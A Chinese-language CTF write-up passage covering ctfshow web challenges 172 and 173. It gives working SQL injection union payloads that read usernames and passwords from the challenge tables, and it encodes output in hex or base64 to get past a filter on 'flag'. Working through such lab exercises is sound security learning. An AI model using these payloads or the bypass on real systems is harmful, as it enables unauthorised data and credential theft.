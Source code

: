 ![Pasted image 20240810102219.png](/img/user/picture/Pasted%20image%2020240810102219.png)


获取这个表中flag用户数据
```
0 ' union select id,username,password from ctfshow_user where username = 'flag' --+
```

![Pasted image 20240810102327.png](/img/user/picture/Pasted%20image%2020240810102327.png)
得到flag





# WEB172 无过滤注入2
![Pasted image 20240810130053.png](/img/user/picture/Pasted%20image%2020240810130053.png)
猫猫，可爱捏



![Pasted image 20240810130118.png](/img/user/picture/Pasted%20image%2020240810130118.png)
这关和上一关挺像的，最大的区别就是如果查询结果的username里面如果有flag，就会被过滤

注意，这一关的字段数只有2
前面思路差不多，后面查询结果使用如下：
```
1 ' union select 1,group_concat(CONCAT_WS(' ', username, password) SEPARATOR ', ') FROM ctfshow_user2 --+
```
![Pasted image 20240810130358.png](/img/user/picture/Pasted%20image%2020240810130358.png)
得到flag



# WEB173 无过滤注入3

![Pasted image 20240810132800.png](/img/user/picture/Pasted%20image%2020240810132800.png)

这题最大的区别就是所有的返回结果里面都不能带有`flag`
所以我们在会出现flag的地方将他base64或者16进制编码一下就可以了

```
1' union select id,hex(username),password from ctfshow_user3 --+

1' union select id,TO_BASE64(username),password from ctfshow_user3 --+
```

![Pasted image 20240810132957.png](/img/user/picture/Pasted%20image%2020240810132957.png)

其实这里因为只有username中会出现flag，所以我们也可以直接干脆只输出password也可以
```
1' union select id,1,password from ctfshow_user3 --+
```
![Pasted image 20240810133142.png](/img/user/picture/Pasted%20image%2020240810133142.png)
